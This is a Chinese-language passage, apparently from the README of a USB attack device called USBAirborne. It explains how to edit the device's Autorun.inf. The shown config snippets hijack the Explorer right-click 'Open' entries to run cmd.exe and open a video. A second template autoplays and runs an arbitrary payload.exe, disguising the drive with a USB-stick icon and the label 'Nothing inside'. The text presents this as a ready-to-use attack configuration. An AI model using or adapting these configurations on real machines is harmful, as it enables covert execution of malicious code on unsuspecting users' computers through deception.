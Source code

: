 ```ini

;劫持右键菜单
shell\open=打开(&O)
shell\open\Command=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX" 
shell\opennewwindow=在新窗口中打开(&E) 
shell\opennewwindow\Command=cmd.exe /c "start https://www.bilibili.com/video/BV1uT4y1P7CX"
```



## 执行指定的程序

如果播放视频不够有趣，也可配置USBAirborne执行其他操作，例如运行指定程序。

首先,将USBAirborne的第一个开关打开，关闭攻击模式。

**只有在攻击模式关闭时，USBAirborne的根目录才可以写入文件。同时，攻击模式关闭时USBAirborne不会执行攻击内容。**

<img src="https://raw.githubusercontent.com/Push3AX/USBAirborne/main/images/Switch_cn.png"/>

修改USBAirborne根目录下的Autorun.inf可实现其它攻击行为。例如运行USBAirborne根目录下的payload.exe：

```ini
[AutoRun]
autoplay=true

;将驱动器图标伪装为U盘图标
icon=c:\windows\system32\shell32.dll,79

;驱动器名称
label=Nothing inside

;攻击Payload，此处为运行根目录下的payload.exe
open=payload.exe
run=payload.exe

;劫持右键菜单
shell\open=打开(&O)
shell\open\Command=payload.exe
shell\opennewwindow=在新窗口中打开(&E) 
shell\opennewwindow\Command=payload.exe
```
